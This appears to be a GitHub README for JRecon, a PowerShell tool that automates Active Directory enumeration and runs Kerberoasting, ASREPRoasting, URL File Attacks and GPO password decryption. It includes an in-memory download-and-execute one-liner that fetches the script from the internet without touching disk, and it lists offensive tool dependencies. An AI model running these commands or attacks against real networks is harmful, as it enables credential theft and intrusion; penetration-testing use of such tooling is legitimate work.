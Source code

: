 # JRecon
### A tool to automate Active Directory Enumeration
I've been working on this tool to automate a good part of the initial AD enumeration phase.

JRecon is not perfect, but it does it's job - while you can go grab a coffee

### How to run ?

Run the tool on memory (don't make it touch disk)

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/JRecon/main/Invoke-JRecon.ps1')
```

Specify the Commercial Version PingCastle URL (or it will download the free version)
```
Invoke-JRecon -PingCastleURL <URL>
```

### What does the tool enumerate for ?

The only attacks it runs is Kerberoasting, ASREPRoasting, and URL File Attack. Everything else is just enumeration

•	AD objects and policies (subnets, computers, users, DCs, password policy and more)

•	Users Description field piping to file (excludes blank entries)

•	Creates a list of Servers

•	Creates a list of Hosts running Unsupported OS

•	Checks on Local Admins on the system

•	Checks if AV is installed

•	Checks for Local Admin Password Solution (LAPS)

•	Kerberoasting and ASREPRoasting

•	Checks for presence of Kerb Tickets in your local machine

•	Enumerates for Vulnerable GPOs

•	Checks for Misconfigured Certificate Templates

•	BloodHound collection

•	Checks for Exploitable Systems

•	Checks for LDAP Signing

•	Checks for Passwords in GPO (and decrypts them if it finds any)

•	Checks for Passwords in SYSVOL/Netlogon

•	Checks for Accessible shares (Read)

•	Checks for Writable shares (Write)

•	URL File Attack

### Dependencies

https://github.com/GhostPack/Rubeus && https://github.com/gentilkiwi/kekeo/
 
https://github.com/Group3r/Group3r
 
https://github.com/GhostPack/Certify

https://github.com/cube0x0/LdapSignCheck

https://github.com/vletoux/pingcastle

https://github.com/BloodHoundAD/SharpHound

https://github.com/sense-of-security/ADRecon

https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1

https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1

https://github.com/darkoperator/Veil-PowerView/blob/master/PowerView/functions/Invoke-ShareFinder.ps1

https://twitter.com/_RastaMouse

https://github.com/nullbind/Powershellery/blob/master/Stable-ish/ADS/Get-ExploitableSystems.psm1

https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1

https://github.com/S3cur3Th1sSh1t/PowerSharpPack

https://www.tenable.com

https://github.com/rejetto/hfs2/

https://github.com/nccgroup/WinShareEnum

https://www.advanced-ip-scanner.com/

https://www.virtualbox.org/

https://www.kali.org/

